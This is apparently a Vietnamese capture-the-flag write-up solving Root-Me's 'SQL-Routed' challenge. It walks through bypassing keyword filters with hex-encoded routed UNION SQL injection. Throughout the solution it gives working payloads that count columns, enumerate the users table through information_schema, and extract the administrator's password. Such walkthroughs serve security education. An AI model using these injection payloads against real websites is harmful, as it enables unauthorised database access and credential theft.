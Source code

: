 # Rootme.SQL-Routed

Point: 35

Exploit my requests

Statement: Find the password

Related resource: [Routed SQL Injection - Zenodermus Javanicus (Exploitation - Web)](https://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html)

# Overview

Form cảu challlenge như sau

![image](https://user-images.githubusercontent.com/115911041/232952854-5b94276c-de72-41b4-8842-c8bbeec403a1.png)

Challenge lần này cung cấp cho ta một web có chứng năng login và search. Vậy ta cần phải tìm password để login vào administrator

# Solution

Sau một vài lần thử một số payload đơn giản ở `Home` thì không có gì nhiều xảy ra. Mình chuyển sang `Search` để tiếp tục, sau khi thừ chèn `'` thì đã có hi vọng

![image](https://user-images.githubusercontent.com/115911041/232953414-aec1b1fa-fed5-4ea2-8d1e-ee945fd49e9f.png)

Vậy là database đang sử dụng MariaDB. Mình tiếp tục thử các lệnh khác thì đều bị filter hết như `or`, `and`, `order by`.

Nếu các bạn có đọc tài liệu mà challenge đã cung cấp thì sẽ biết cách bypass SQL-Routed.Là chúng ta sẽ chuyển câu truy vấn sang dạng hex là xong.

``` 
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

Nếu các bạn muốn nhanh thì có thể sử dụng payload đó vào phần search là sẽ ra flag. Nhưng mình sẽ tiếp tục sử dụng cách khác để có thể hiểu bài hơn.Như anh Khánh đã từng nói:"Làm được python tồi hãy nghĩ đến sử dụng tool".

Bước đầu, mình sử dụng query này:
`' UNION SELECT 1 -- -`B

![image](https://user-images.githubusercontent.com/115911041/232954760-1d4d65e0-6176-4cb8-8019-751c1930ff06.png)

Vậy chứng tỏ là sau khi thực hiện câu lệnh union select 1, nó sẽ tiếp tục đi thực hiện một câu lệnh truy vấn khác nữa. Vì nếu chỉ có 1 câu lệnh thì nó sẽ trả về 1 thôi.

Bây giờ ta chỉ cần xác định số column, mình sẽ sử dụng `order by`

```
#Hex of: 'union select order by 1-- -
'union+select+0x276f7264657220627920312d2d202d--+ 
```
Sau đó tăng dần đến 3 thì báo lỗi ` Unknown column '3' in 'order clause'`, vậy số column là 2. Giờ ta sẽ xác định table hiện tại là gì, mình sử dụng group_concat để lấy toàn bộ table users

```
#Hex of: 'union select null,(select group_concat(column_name) from information_schema.columns where table_name='users')-- -
'union+select+0x27756e696f6e2073656c656374206e756c6c2c2873656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d27757365727327292d2d202d
```
Ta được phần response khá dài.

```
#Hex of: 'union select null,(select group_concat(column_name) from information_schema.columns where table_name='users')-- -
'union+select+0x27756e696f6e2073656c656374206e756c6c2c2873656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d27757365727327292d2d202d-- -
```

![image](https://user-images.githubusercontent.com/115911041/233143912-5361a3dd-9f32-4384-be80-9ba08fbff981.png)

[+] Email: id,login,password,email

Ta đã biết id của admin là 3, table là users, column_name cũng đã rõ ràng, vậy giờ lấy mật khẩu của admin

```
#Hex of: 'union select null,(select password from users where id=3)-- -
'union+select+0x27756e696f6e2073656c656374206e756c6c2c2873656c6563742070617373776f72642066726f6d2075736572732077686572652069643d33292d2d202d-- -
```
